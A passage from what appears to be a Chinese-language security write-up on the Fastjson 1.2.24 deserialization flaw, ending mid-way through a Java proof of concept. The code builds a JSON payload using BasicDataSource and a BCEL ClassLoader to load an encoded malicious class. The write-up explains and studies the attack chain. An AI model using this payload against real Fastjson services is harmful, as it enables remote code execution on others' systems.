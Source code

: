 从图中可以看到，获得了该类所有 getter 方法，最终调用到`getConnection()`方法。

贴一下调用链图：
![image-20221229185511514](images/image-20221229185511514.png)

编写 exp：
```java
package com.fastjson.fastjson;

import com.alibaba.fastjson.JSON;
import com.fastjson.becl.EvilDemo;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;

/**
 * Created by dotast on 2022/12/29 12:02
 */
public class FastJson124Bcel {
    public static void main(String[] args) throws Exception {
        // 加载恶意类字节码
        JavaClass javaClass = Repository.lookupClass(EvilDemo.class);
        String byteCode = "$$BCEL$$" + Utility.encode(javaClass.getBytes(), true);
        String targetClass = "org.apache.tomcat.dbcp.dbcp.BasicDataSource";
        String bcelClass = "com.sun.org.apache.bcel.internal.util.ClassLoader";
        String exp = "{\n" +
                "       {\n" +
                "         \"aaa\":{\n"+
                "                  \"@type\":\"" + targetClass + "\",\n" +
                "                   \"driverClassLoader\":{\n" +
                "                     \"@type\": \"" + bcelClass + "\"\n" +
                "                    },\n" +
                "                   \"driverClassName\":\"" + byteCode + "\"\n" +
                "       }\n" +
                "     }:"+"\"bbb\"\n" +
                "}";
        System.out.println(exp);
        JSON.parse(exp);
```